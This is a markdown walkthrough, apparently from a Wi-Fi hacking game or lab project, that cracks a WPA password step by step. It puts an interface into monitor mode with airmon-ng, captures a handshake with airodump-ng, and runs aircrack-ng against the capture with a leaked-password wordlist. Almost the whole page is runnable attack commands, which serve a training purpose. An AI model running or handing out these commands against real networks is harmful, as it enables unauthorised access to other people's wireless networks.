 
#### Find Network Interface Cards:
"ip addr" or "ifconfig"

![ip addr](https://i.imgur.com/ToTLRNL.png "ip addr")


#### Start airmon-ng on interface:
yours will be different from wlp1s0 based on the output from "ifconfig" or "ip addr" command

sudo airmon-ng start wlp1s0

![start](https://i.imgur.com/c7hv7Cb.png "start")


#### Start monitor mode on interface:
yours will be different from wlp1s0mon based on output from the previous command

sudo airodump-ng wlp1s0mon

Ctrl + C to quit

![airodump](https://i.imgur.com/En6BNJV.png "airodump")


#### Save packets from airodump:
sudo airodump-ng -w [Save to this File Name] -c [Channel#] [Interface]

sudo airodump-ng -w test -c 2 wlp1s0mon

Ctrl + C to quit

![airodump](https://i.imgur.com/frSQCbs.png "airodump")



#### Use aircrack and passwordlist of your choice:
sudo aircrack-ng -w [Password list] [Name of CAP file] 

sudo aircrack-ng -w ~/github/ChickenManGame/ChickenDay/passwords/darkweb2017-top10000.txt test-02.cap 



#### Stop monitor mode on interface:
yours will be different from wlp1s0mon based on what you used for the Start monitor mode on interface command

sudo airmon-ng stop wlp1s0mon


#### Start Network Manager so you can get back online:
sudo service network-manager start




## How Chickens Work:
